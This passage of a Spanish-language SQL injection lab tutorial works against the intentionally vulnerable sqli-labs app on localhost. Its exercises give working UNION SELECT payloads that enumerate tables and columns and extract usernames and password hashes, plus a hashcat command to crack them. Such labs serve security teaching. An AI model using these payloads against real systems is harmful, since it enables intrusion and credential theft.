 📌 **Objetivo:** Obtener nombres de tablas.

**Pasos:**

1. Usa `information_schema.tables`:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema=database() --+
   ```

2. Aparecerán nombres de tablas en la página.

## **🔹 Práctica 4: Obtener Nombres de Columnas**

📌 **Objetivo:** Extraer los nombres de columnas de la tabla `users`.

**Pasos:**

1. Usa `information_schema.columns` :

   ```sql
   http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users' --+
   ```

2. Se mostrarán los nombres de las columnas.

## **🔹 Práctica 5: Obtener Usuarios y Contraseñas**

📌 **Objetivo:** Extraer credenciales almacenadas.

**Pasos:**

1. Usa `UNION SELECT` para obtener datos:

   ```sql
   http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,username,password FROM users --+
   ```

2. Se mostrarán los nombres de usuario y contraseñas (generalmente en hash).

## **🔹 Práctica 6: Decodificación de Hashes**

📌 **Objetivo:** Romper los hashes de contraseña obtenidos.

**Pasos:**

1. Copia el hash encontrado en la Práctica 5.

2. Usa herramientas como `Hashcat` en Kali Linux:

   ```html
hashcat -m 0 hash.txt rockyou.txt
   ```

3. Si el hash es común, obtendrás la contraseña en texto plano.

# **📌 TÉCNICAS AVANZADAS DE BYPASS**
